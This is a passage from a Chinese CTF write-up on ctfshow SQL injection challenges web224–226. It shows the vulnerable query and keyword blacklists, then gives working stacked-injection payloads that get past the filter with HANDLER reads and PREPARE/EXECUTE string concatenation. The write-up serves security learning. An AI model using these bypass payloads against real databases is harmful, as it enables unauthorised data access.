 ## web224~exif注入

可以看[这里](https://www.gem-love.com/ctf/2283.html#%E4%BD%A0%E6%B2%A1%E8%A7%81%E8%BF%87%E7%9A%84%E6%B3%A8%E5%85%A5)

# 七、堆叠注入

## web225~预编译,handler

> 查询语句
>
>   //分页查询
>   $sql = "select id,username,pass from ctfshow_user where username = '{$username}';";
>       
>
> 返回逻辑
>
>   //师傅说过滤的越多越好
>   if(preg_match('/file|into|dump|union|select|update|delete|alter|drop|create|describe|set/i',$username)){
>     die(json_encode($ret));
>   }
>       

过滤了很多，但没过滤 show ,可以配合 hander 读数据

https://blog.51cto.com/15023289/2559944

payload

```
?username=1';show tables;handler ctfshow_flagasa open;handler ctfshow_flagasa read first;
```

还可以预编译

> 预编译也能用变量
> `SET @tn = 'hahaha';`  //存储表名
> `SET @sql = concat('select * from ', @tn);`  //存储SQL语句
> `PREPARE name from @sql;`   //预定义SQL语句
> `EXECUTE name;`  //执行预定义SQL语句
> `(DEALLOCATE || DROP) PREPARE sqla;`  //删除预定义SQL语句

```
username=1';show tables;PREPARE name from concat('sel','ect * from ctfshow_flagasa');EXECUTE name;
```

## web226~hex

> ```
>  if(preg_match('/file|into|dump|union|select|update|delete|alter|drop|create|describe|set|show|\(/i',$username)){
>     die(json_encode($ret));
>   }
> ```
